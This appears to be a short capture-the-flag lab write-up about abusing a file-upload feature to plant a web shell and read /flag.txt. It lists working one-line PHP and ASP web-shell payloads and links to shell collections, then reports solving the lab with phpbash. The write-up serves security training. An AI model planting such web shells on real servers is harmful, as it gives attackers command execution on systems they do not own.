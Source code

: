 # Upload Exploitation

Try to exploit the upload feature to upload a web shell and get the content of /flag.txt

Usefull shells:
- https://github.com/Arrexel/phpbash
- https://github.com/danielmiessler/SecLists/tree/master/Web-Shells
- ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
- ```php
  <?php system($_GET['cmd']); ?>
  ```
- `.NET`:
  ```asp
  <% eval request('cmd') %>
  ```

`Reverse shells`:
- https://github.com/pentestmonkey/php-reverse-shell
- https://github.com/danielmiessler/SecLists/tree/master/Web-Shells

---

## Uploading the Web Shell  

We uploaded the web shell `phpbash.php`:  

![image](https://github.com/user-attachments/assets/96804962-33fd-43e2-9d9c-c411de360d86)  

Using the web shell, we executed commands and successfully resolved the lab:  

![image](https://github.com/user-attachments/assets/664b66f6-8fc1-4244-86e5-9278a9e74e8f)  






